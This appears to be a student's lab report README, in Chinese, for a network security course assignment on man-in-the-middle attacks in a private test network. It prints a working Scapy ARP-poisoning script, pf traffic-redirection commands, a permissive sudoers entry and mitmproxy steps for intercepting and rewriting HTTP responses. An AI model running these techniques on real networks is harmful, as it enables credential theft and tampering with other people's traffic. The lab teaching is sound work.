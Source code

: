 # 网络安全工程 实验2：中间人攻击

## 实验要求

在攻击机上利用Scapy伪造数据包，对另外两台靶机进行ARP欺骗，实现窃听靶机之间的会话，在实现ARP欺骗的基础上，进一步实现中间人攻击。利用iptables 修改流量的转发端口，使用mitmproxy进行拦截请求，可以获取到请求的参数，从中提取出重要的信息，比如用户名和密码，也能够修改响应，改变返回的内容。mitmproxy 提供了inline script 方法，能够使用脚本来操作流量，使得mitmproxy 的功能更加强大，当然也可以尝试拦截https的流量，mitmproxy 也具有这样的能力。

- 要求1：使用Scapy实现窃听另外两台靶机的会话。例如窃听并提取另外两台靶机之间FTP或者HTTP会话的登录账号。
- 要求2：对另外两台靶机进行中间人攻击，实现对会话进行篡改。例如对靶机间的HTTP会话进行注入，修改HTTP响应。

## 实验环境

- 网络环境：利用路由器的自组无线局域网，子网网段192.168.1.0/24
- 攻击者 Attacker：
    - OS: MacOS 10.14
- 服务器 Server：
    - OS: MacOS
    - IP: 192.168.1.107
- 客户机 Victim：
    - OS: Windows 10
    - IP: 192.168.1.104
- **注意**：由于使用物理机环境而非kali虚拟机，因此部分操作与实验指示书有所不同

## 实验步骤

### 要求1

1. 首先将三台主机连入子网，为server配置http服务，随后用客户机victim通过浏览器访问服务器ip地址，可以得到 http response 如下：

    ![HTTP RESPONSE](fig/browser_norm.PNG)

2. 在攻击者上编写arp poison脚本，原理是利用Scapy分别向server和victim不断发送被修改过的ARP包，从而在二者的ARP缓存中投毒，将两者对于对方的ARP缓存均更改为attacker的MAC地址。脚本详见`src/arp_poison.py`，主要内容如下：

    ```py
        server_ip = "192.168.1.107"
        victim_ip = "192.168.1.104"

        # 获取目标ip的MAC地址
        def get_mac(ip_address):
            ans, unans = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst=ip_address), timeout=2, retry=10)
            for s, r in ans:
                return r[Ether].src
            return None

        # 分别获取二者的MAC
        victim_mac = get_mac(victim_ip)
        server_mac = get_mac(server_ip)

        # 构造ARP包
        # 发给server的包中，源ip为victim，但源mac为attacker
        # 发给victim的包类似
        poison_server = ARP()
        poison_server.op = 2
        poison_server.psrc = victim_ip
        poison_server.pdst = server_ip
        poison_server.hwdst = server_mac

        poison_victim = ARP()
        poison_victim.op = 2
        poison_victim.psrc = server_ip
        poison_victim.pdst = victim_ip
        poison_victim.hwdst = victim_mac

        # 循环发送，保证占有ARP缓存
        while True:
            send(poison_server)
            send(poison_victim)
            time.sleep(2)
            print("Poisoning...")
    ```
3. 执行上面的脚本，开始ARP投毒

    ```bash
        $ python arp_poison.py
    ```

4. 为了使用mitmproxy，attacker需要开启转发，流程参考 [mitmproxy docs](https://docs.mitmproxy.org/stable/howto-transparent/#macos)，具体操作如下：

    ```bash
        $ sudo sysctl -w net.inet.ip.forwarding=1
        $ echo "rdr on en0 inet proto tcp to any port {80, 443} -> 127.0.0.1 port 8080" > pf.conf
        $ sudo pfctl -f pf.conf
        $ sudo pfctl -e
    ```
    随后修改`/etc/sudoers`，在文件末尾添加如下内容：
    ```
        ALL ALL=NOPASSWD: /sbin/pfctl -s state
    ```

5. 开启`mitmproxy`进行流量监听：
    ```bash
        $ mitmproxy --mode transparent
    ```

5. 此后，victim再向server发送请求时，attacker都会监听到HTTP会话，如，victim再次通过浏览器访问server时，attacker可以监控到相应的GET和Response：
    ![transparent](fig/transparent.png)

### 要求2

1. attacker在`mitmproxy`中开启对server (192.168.1.107) 的流量拦截：
    ![intercept](fig/intercept.png)
2. victim再次发送GET请求时，Response将被截获：
    ![intercept response](fig/intercept_response.png)
3. 这时attacker即可对包进行编辑，从而达到篡改会话的目的，如这里我们进行HTTP会话注入，修改回复内容：
    - 原始内容：
        ![response_origin](fig/response_origin.png)

    - 修改内容：
        ![response_edited](fig/response_edited.png)
4. attacker完成修改后，即可按`a`放行，victim将收到被篡改过的回复：
    ![browser_poison](fig/browser_poison.PNG)

## 分工情况
